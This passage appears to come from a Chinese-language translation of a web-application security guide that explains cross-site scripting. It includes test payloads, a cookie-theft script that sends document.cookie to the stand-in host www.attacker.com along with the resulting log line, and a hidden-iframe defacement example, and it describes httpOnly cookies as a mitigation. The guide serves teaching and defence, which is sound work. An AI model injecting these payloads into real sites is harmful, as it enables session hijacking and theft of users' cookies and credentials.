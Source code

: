 2007年下半年，Mozilla瀏覽器報告了88個漏洞，Safari報告了22個漏洞，IE報告了18個漏洞，Opera報告了12個漏洞。Symantec全球互聯網安全威脅報告還記錄了2007年下半年的239個瀏覽器插件漏洞。[Mpack](https://www.pandasecurity.com/en/mediacenter/malware/mpack-uncovered/)是一個非常活躍且最新的攻擊框架，它利用了這些漏洞。對於犯罪黑客來說，利用Web應用程序框架中的SQL注入漏洞並在每個文本表列中插入惡意代碼非常有吸引力。在2008年4月，超過510,000個網站遭到了這種黑客攻擊，其中包括英國政府、聯合國和許多其他知名目標。
#### HTML/JavaScript注入

最常見的XSS語言當然是最受歡迎的客戶端腳本語言JavaScript，通常與HTML結合使用。_對用戶輸入進行轉義是必不可少的_。

這是最直接的測試，用於檢查XSS：

```html
<script>alert('Hello');</script>
```

這段JavaScript代碼只會顯示一個警示框。下面的例子完全相同，只是在非常不常見的地方：

```html
<img src="javascript:alert('Hello')">
<table background="javascript:alert('Hello')">
```

##### Cookie竊取

到目前為止，這些例子都不會造成任何損害，現在讓我們看看攻擊者如何竊取用戶的Cookie（從而劫持用戶的會話）。在JavaScript中，您可以使用`document.cookie`屬性來讀取和寫入文檔的Cookie。JavaScript強制執行同源策略，這意味著來自一個域的腳本無法訪問另一個域的Cookie。`document.cookie`屬性保存了來源Web服務器的Cookie。但是，如果您直接將代碼嵌入到HTML文檔中（就像XSS一樣），則可以讀取和寫入此屬性。在您的Web應用程序的任何位置注入以下代碼，以在結果頁面上查看自己的Cookie：

```html
<script>document.write(document.cookie);</script>
```

對於攻擊者來說，這當然沒有用，因為受害者將看到自己的Cookie。下一個例子將嘗試從URL http://www.attacker.com/ 加上Cookie加載圖像。當然，這個URL不存在，所以瀏覽器不會顯示任何內容。但攻擊者可以查看他們的Web服務器訪問日誌文件，以查看受害者的Cookie。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.com上的日誌文件將顯示如下：

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

您可以通過將**httpOnly**標誌添加到Cookie來減輕這些攻擊（以明顯的方式），以便JavaScript無法讀取`document.cookie`。從IE v6.SP1、Firefox v2.0.0.5、Opera 9.5、Safari 4和Chrome 1.0.154開始，可以使用httpOnly Cookie。但是其他較舊的瀏覽器（例如WebTV和Mac上的IE 5.5）實際上可能導致頁面無法加載。請注意，使用Ajax仍然可以查看Cookie，[請參閱支持httpOnly的瀏覽器](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly)。

##### 網頁篡改

通過網頁篡改，攻擊者可以做很多事情，例如呈現虛假信息或引誘受害者進入攻擊者的網站以竊取Cookie、登錄憑據或其他敏感數據。最常見的方式是通過iframe包含來自外部源的代碼：

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

這將從外部源加載任意的HTML和/或JavaScript並將其嵌入到網站中。這個`iframe`來自對合法意大利網站使用[Mpack攻擊框架](https://isc.sans.edu/diary/MPack+Analysis/3015)的實際攻擊。Mpack試圖通過網頁瀏覽器中的安全漏洞安裝惡意軟件，非常成功，50%的攻擊成功。

更專門的攻擊可能會重疊整個網站或顯示一個與該站點原始頁面相同的登錄表單，但將用戶名和密碼傳輸到攻擊者的網站。或者，它可以使用CSS和/或JavaScript將合法鏈接隱藏在Web應用程序中，並在其位置顯示另一個鏈接，該鏈接重定向到假網站。
